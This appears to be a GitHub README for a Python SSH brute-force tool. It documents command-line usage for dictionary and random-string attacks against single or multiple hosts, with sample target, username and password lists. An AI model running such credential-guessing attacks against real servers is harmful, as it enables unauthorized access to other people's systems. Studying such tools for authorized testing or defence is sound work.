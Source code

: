 # SSH Brute Forcer

Simple multi threaded SSHBrute Forcer, Standard Brute Forcing and Dictonary based attacks.

Note: The brute force method is really bad just trys random strings with different lengths. Also it will attempt to create a lot of threads if you say 1000 attempts it will create 1000 threads.. Why you might ask because no one should really ever use this feature.

### Single Ip Dictonary Attack
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 2222 -U ./usernames.txt -P ./passwords.txt
```
### Single Ip Dictonary Attack Specifying threads and timeout
```
python SSHBruteForce.py -i 127.0.0.1 -d True -p 2222 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Multiple Ip Dictonary Attack
```
python SSHBruteForce.py -I ./targets.txt -d True -p 2222 -U ./usernames.txt -P ./passwords.txt -t 15 -T 30
```

### Single Ip BruteForce Attack
```
python SSHBruteForce.py -i 127.0.0.1 -p 22 -a 100 -l 8
```

### Multiple Ip BruteForce Attack
```
python SSHBruteForce.py -I targets.txt -p 22 -a 100 -l 8
```

* Example of `targets.txt`:
```
127.0.0.1:22
127.0.0.2:23
```

* Example of `usernames.txt`:
```
jimmyj
derpt
marth
```

* Example of `passwords.txt`:
```
love
god
sex
secret
```

For educational use only.
